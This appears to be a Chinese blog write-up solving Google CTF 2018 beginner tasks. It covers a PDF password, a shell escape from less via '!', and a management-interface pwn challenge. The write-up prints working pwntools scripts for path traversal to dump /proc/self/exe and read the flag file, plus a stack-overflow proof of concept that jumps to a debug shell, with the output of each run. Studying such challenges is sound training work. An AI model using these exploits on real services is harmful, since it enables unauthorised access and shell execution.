

下载后是个 PDF 文件, 打开后, ctrl+a 全选复制, 然后粘贴到文本编辑器里就得到了flag. 如下图所示, 注意高亮要选中 Password 所在的黑条块.

flag 是 CTF{ICanReadDis} .
man 手册里面按下 h 可以看到 man 的操作选项, 如下:
-<flag> Toggle a command line option [see OPTIONS below].
--<name> Toggle a command line option, by name.
_<flag> Display the setting of a command line option.
__<name> Display the setting of an option, by name.
+cmd Execute the less cmd each time a new file is examined.
!command Execute the shell command with $SHELL.
|Xcommand Pipe file between current pos & mark X to shell command.
v Edit the current file with $VISUAL or $EDITOR.
V Print version number of "less".
使用 ! 号可以执行外部 shell 命令, 所以看看 home 目录下面:
!ls home/moar
disable_dmz.sh
看一下这个文件
!cat home/moar/disable_dmz.sh
#!/bin/sh
# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
# https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
flag 是 CTF{SOmething-CATastr0phic}
➜ google-ctf nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
1) Service access
2) Read EULA/patch notes
3) Quit
我只想到了看 1), 密码不知道, 没有思路了.
看了别人的 writeup, 才看到人家 https://ctftime.org/writeup/1028... 看了 2),我却没有继续看 2). 这是一个很不好的地方, 因此我打算看下 2) 怎么做,2) 获取的信息如下
看到这里我又没有思路了, 之后上述 wirteup 里面直接提到了路径遍历,我根本不知道这是如何得到的, 这个 wirteup https://ctftime.org/task/6252 提到了,说是在 2) 中选择版本的时候, 随便输入一个错误的值, 导致爆出如下错误:
Error: No such file or directory
这个是路径报错.它内部的处理逻辑应该是, 根据输入的文件名称, 然后作为参数打开对应的文件,那么我们就可以尝试路径遍历.
但是这个时候, 又有一个问题了, 就是怎么遍历? 首先你肯定要找到根路径,在 CTF 中作为服务器的大多是 Linux, 我用 nmap 扫了一下也没发现什么输出.假定为 Linux 看一下, Linux 里面肯定是有一个根目录的.根目录下面的东西我们找 Ubuntu 看一下:
bin boot dev etc home initrd.img initrd.img.old lib lib64 lost+found
media mnt mp opt proc root run sbin snap srv sys tmp usr var
vmlinuz vmlinuz.old
root 应该是有的, 当我们尝试到这一步:
Which patchnotes should be shown?
../../../root
Error: Permission denied
发现提示权限拒绝, 因此 ../../../ 应该就是根目录了.但是现在又有一个困境, 我们怎么得到是哪个程序在服务呢?
这里需要知道了 linux 文件系统的结构,从这里 http://tldp.org/LDP/Linux-Filesy... 可以看到
/bin /boot /dev /etc /home /initrd /lib /lost+found /media /mnt /opt /proc
/root /sbin /usr /var /srv /tmp
其中 /proc 是比较特殊的, 它是一个虚拟的文件系统, 包含了系统的运行时信息,每一个进程在下面都一个文件夹对应, 文件夹的名称为该进程的进程号,而另外一个很特殊的是 self 文件夹, 这个文件夹用于存放当前运行进程的信息,它其实是一个软连接, 指向该进程对应的文件夹.
每一个进程目录下面存放的有如下东西
-r--r--r-- 1 root root 0 Jan 19 15:02 cmdline
lrwxrwxrwx 1 root root 0 Jan 19 15:02 cwd -> /
-r-------- 1 root root 0 Jan 19 15:02 environ
lrwxrwxrwx 1 root root 0 Jan 19 15:02 exe -> /usr/sbin/sshd
dr-x------ 2 root root 0 Jan 19 15:02 fd
-r--r--r-- 1 root root 0 Jan 19 15:02 maps
-rw------- 1 root root 0 Jan 19 15:02 mem
lrwxrwxrwx 1 root root 0 Jan 19 15:02 root -> /
-r--r--r-- 1 root root 0 Jan 19 15:02 stat
-r--r--r-- 1 root root 0 Jan 19 15:02 statm
-r--r--r-- 1 root root 0 Jan 19 15:02 status
这里很多参数都是自解释的: 比如 cmdline 就是该程序的命令行参数,cwd 是改程序的工作路径, environ 环境变量, exe 是改程序的绝对路径等.最后面几个: stat -> 进程状态, statm -> 进程内存状态, status -> 人类友好的进程状态信息.也即是说 stat 和 statm 人为不可读的, 我看了一下只是一串数字, 不知道什么含义.
这是一道 pwn 题目, 所以我们一定要得到二进制程序, 因此可以通过 ../../../proc/self/exe 打开该程序, 通过 nc 把它 dump 到本地.
可问题是, 这个并不是连接后直接产生输出的, 所以怎么解决呢?我先想到的是 pwntools, 来理清一下登录流程
➜ google-ctf nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
1) Service access
2) Read EULA/patch notes
3) Quit
2
The following patchnotes were found:
- Version0.2
- Version0.3
Which patchnotes should be shown?
连接后, 输出 3 个选项, 输入 2, 然后再输入 ../../../proc/self/exe,接下来的输出我们保存到 bin 文件中. 其实目前为止, pwntools 我也没用过.我不知道怎么用, 所以求助于 pwntools 的文档, 看看能不能解决这个问题.使用如下命令进行连接:
#! /usr/bin/env python2
#! -*- coding:utf-8 -*-
from pwn import *
conn = remote('mngmnt-iface.ctfcompetition.com', 1337)
print conn.recvlines(4)
conn.sendline('2')
print conn.recvlines(4)
conn.sendline('../../../proc/self/exe')
ends = '=== Management Interface ==='
exe = conn.recvuntil(ends)
exe = exe.strip(ends)
with open('exe.elf', 'wb') as _:
_.write(exe)
print conn.recvline()
我用这个保存出来的程序不全, IDA 无法分析, 但是使用 radare2 可以分析,没有任何符号, 但是分析出来了第二阶段的 flag:
CTF{Two_PasSworDz_Better_th4n_1_k?}
后来又看了看 pwntools 的文档, 发现一个 can_recv 函数, 这样子的话就可以处理了, 代码如下
#! /usr/bin/env python2
#! -*- coding:utf-8 -*-
from pwn import *
conn = remote('mngmnt-iface.ctfcompetition.com', 1337)
print conn.recvlines(4)
conn.sendline('2')
print conn.recvlines(4)
conn.sendline('../../../proc/self/exe')
exe = ''
while conn.can_recv(2):
exe += conn.recvn(1)
pos = exe.rfind("=== Management Interface ===")
exe = exe[:pos]
print(len(exe))
with open('adminui.elf', 'wb') as _:
_.write(exe)
can_recv 里面可以设置一个超时, 这里设置为 2s, 如果网络环境差, 可以适当设置大一点.这样 dump 出来的程序是完整的. 然后用 radare2 分析, 使用 BB 模式分析.
第一个主要的分析的函数是 primary_login, 这个对应于 adminui-1 的任务.
我们能看到它读取了当前路径下的 flag 文件, 那么去哪里找 flag 文件呢?通过查看 ../../../proc/self/maps 也能够得到主程序的具体路径:
00400000-00401000 r-xp 00000000 08:01 534875 /home/user/main
41414000-41415000 r-xp 00014000 08:01 534875 /home/user/main
41615000-41616000 r--p 00015000 08:01 534875 /home/user/main
所以 flag 文件的路径是 ../../../home/user/flag
CTF{I_luv_buggy_sOFtware}
第二个函数 secondary_login, 这个对应于 adminui-2 的任务.
:> pcj 0x23 @ 0x41414a40
[132,147,129,188,147,176,168,152,151,166,180,148,176,168,181,131,189,152,133,162,179,179,162,181,152,179,175,243,169,152,246,152,172,248,186]
将每一位与 0xc7 执行异或操作, 即可得到 flag:
CTF{Two_PasSworDz_Better_th4n_1_k?}
但是其实只要输入 35 个字符即可, 只要保证第一个字符和 0xC7 异或的结果不为 0 即可.写脚本登录
#! /usr/bin/env python2
#! -*- coding:utf-8 -*-
from pwn import *
conn = remote('mngmnt-iface.ctfcompetition.com', 1337)
conn.recvlines(4)
conn.sendline('1')
conn.recvlines(1)
conn.sendline('CTF{I_luv_buggy_sOFtware}')
conn.recvlines(2)
conn.sendline('A' * 0x23)
conn.interactive(prompt = '')
这里就走到了 command_line 函数, 可以输入 shell 来进入一个终端,但是这个终端在程序里面被禁用了. 这就是 adminui-3 的任务.
adminui-3 我不知道怎么处理, 进入 debug_shell 函数由一个 shell_enabled 变量决定, 而该变量默认是 flase. 这里面处理输入的函数是 getsx_char,这个函数没有设定输入的长度, 每次用 fread 读一个字节, 然后放入 result 中.来看一下主要的循环汇编代码
; var char *result_ @ rbp-0x18
; var char buf_ @ rbp-0x1
0x41414277 488b45e8 mov rax, qword [result_]
0x4141427b 488d5001 lea rdx, [rax + 1] ; 1
0x4141427f 488955e8 mov qword [result_], rdx
0x41414283 0fb655ff movzx edx, byte [buf_]
0x41414287 8810 mov byte [rax], dl
换成稍微直观一点的:
rax = [result_]
rdx = rax + 1
[result_] = rdx
edx = [buf_]
[rax] = dl
注意对局部变量的命名方法, 在我的习惯中, 常对局部变量名称后缀以下划线,以 result_ 为例, 它表示 result 变量的栈地址, 在这里其值为 rbp - 0x18,所以 [result_] 就是得到 result 变量. buf_ 也是类似的含义.
而变量类型的定义如 char *result_ 表示变量 result 是一个字符数组,不是 result_ 是一个字符数组, 这一点要理清楚. 同理, buf 是一个字符.
因此上述代码的含义就是
rax = result
rdx = rax + 1
result = rdx
edx = buf
[rax] = dl
进一步简化:
*result = buf
result = result + 1
然后我们用 r2 调试这个程序, 你需要在可执行程序所在目录下放入一个名称为 flag 的文件,文件内容为 CTF{I_luv_buggy_sOFtware} , 这里面有一个坑是, 我用 vim 输入这个字符串后,即使我不换行, 它也会在末尾加上一个 \n 换行符, 刚开始在本地测试的时候,第一步密码输入是正确的, 但是却进不去, 使用 r2 调试看了一下:
:> afvd buf
pf z @rbp-0x90
:> px 128 @rbp-0x90
- offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF
0x7ffe7ea2ba30 4354 467b 495f 6c75 765f 6275 6767 795f CTF{I_luv_buggy_
0x7ffe7ea2ba40 734f 4674 7761 7265 7d0a 0000 0000 0000 sOFtware}.......
发现读取 flag 文件后, 多了一字节 0xa, 那么移除这个字节就好了,r2 啥都能做, r2 -w flag , 使用 V 切换到十六进制模式, c 进入光标模式,移动到最后一个 0xa 字节, i 切换到插入模式, 按下 r 删除, qq 退出.熟悉了会发现十分十分方便.
# /dev/pts/2
sleep 999
# /dev/pts/1
r2 -R "stdio=/dev/pts/2" -d adminui.elf
注意上面在 pts-1 中执行 sleep 999 很重要, 时间要长一点以便我们完成 pts-2 中的r2 命令. -R 指定标准输入输出在 pts-1 中进行, 而 -d 表示进行动态调试.
进入 r2 后我们使用 aa 简单分析一下:
Process with PID 17766 started...
= attach 17766 17766
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
-- The door controls time and space.
[0x7f1d31da3c30]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
溢出点在 getsx_char 函数处, 我们看一下谁调用了这个函数
[0x7f1d31da3c30]> s sym.getsx_char
[0x4141423a]> axt
sym.command_line 0x414142b2 [CALL] call sym.getsx_char
[0x4141423a]> s sym.command_line
command_line 调用了 getsx_char, 我们定位到 command_line 函数,
┌ (fcn) sym.command_line 440
│ sym.command_line ();
│ ; var int local_130h @ rbp-0x130
│ ; var int local_30h @ rbp-0x30
│ ; CALL XREF from sym.secondary_login (0x4141454c)
│ 0x4141428e 55 push rbp
│ 0x4141428f 4889e5 mov rbp, rsp
│ 0x41414292 53 push rbx
│ 0x41414293 4881ec280100. sub rsp, 0x128
│ ; XREFS: CODE 0x41414311 CODE 0x41414344 CODE 0x4141434e CODE 0x4141438e CODE 0x4141441a CODE 0x41414437
│ ┌┌┌─> 0x4141429a 488d3dca0700. lea rdi, [0x41414a6b] ; "> "
│ ╎╎╎ 0x414142a1 b800000000 mov eax, 0
│ ╎╎╎ 0x414142a6 e8c5c7febe call sym.imp.printf ;[1] ; int printf(const char *format)
│ ╎╎╎ 0x414142ab 488d45d0 lea rax, [local_30h]
│ ╎╎╎ 0x414142af 4889c7 mov rdi, rax
│ ╎╎╎ 0x414142b2 e883ffffff call sym.getsx_char ;[2]
我们可以看到它将读入的内容放入到了 local_30h 这个变量中, 这个变量在栈上的位置是 rbp-0x30, 所以我们覆盖 0x30 个字节就到了 rbp 处.而这个程序提供 shell 访问的函数是 debug_shell,所以我们只需要把返回地址覆盖成 debug_shell 的地址就可以了.而 debug_shell 的地址可以用如下方法得到:
[0x414142b7]> ?v sym.debug_shell
0x41414227
所以返回地址写入 0x41414227 即可, 最终 poc 代码如下:
#! /usr/bin/env python2
#! -*- coding:utf-8 -*-
import sys
from pwn import *
if sys.argv[1] == '1':
print "[+] Remote exploiting ..."
conn = remote('mngmnt-iface.ctfcompetition.com', 1337)
elif sys.argv[1] == '0':
print "[+] Local exploiting ..."
conn = process('./adminui.elf')
else:
print "[x] Wrong parameters!"
sys.exit(1)
print conn.recvlines(4)
conn.sendline('1')
print conn.recvlines(1)
conn.sendline('CTF{I_luv_buggy_sOFtware}')
print conn.recvlines(1)
conn.sendline('A' * 0x23)
print conn.recvlines(2)
rop = ''
rop += 0x30 * 'A' # padding
rop += p64(1) # override rbp
rop += p64(0x41414227)
conn.sendline(rop)
print conn.recvline()
conn.interactive(prompt = '')
当 poc 生效后, 输入 quit 并回车将会自动进入获得的 shell 中.
测试结果如下:
$ python2 poc.py 1
[+] Remote exploiting ...
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
['=== Management Interface ===', ' 1) Service access', ' 2) Read EULA/patch notes', ' 3) Quit']
['Please enter the backdoo^Wservice password:']
['! Two factor authentication required !']
['Please enter secret secondary password:', 'Authenticated']
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[*] Switching to interactive mode
> quit
Bye!
ls
an0th3r_fl44444g_yo
flag
main
patchnotes
cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
[*] Interrupted
[*] Closed connection to mngmnt-iface.ctfcompetition.com port 1337
所以 flag 为 CTF{c0d3ExEc?W411_pL4y3d} .
最开始尝试的是用 rop 的方法来直接调用 system 系统调用, 但是尴尬的是 system 的地址如下
[0x4141428e]> ?v sym.imp.system
0x400ae0
发送 rop 上去一直不成功, 后来在群里问了问, r3kapig 的 pxx 大哥告诉我里面的 0xa 是回车,恍然大悟.
然后又看了一下, 不用 rop 这么麻烦, 直接把 debug_shell 的地址写进去就行了.
TODO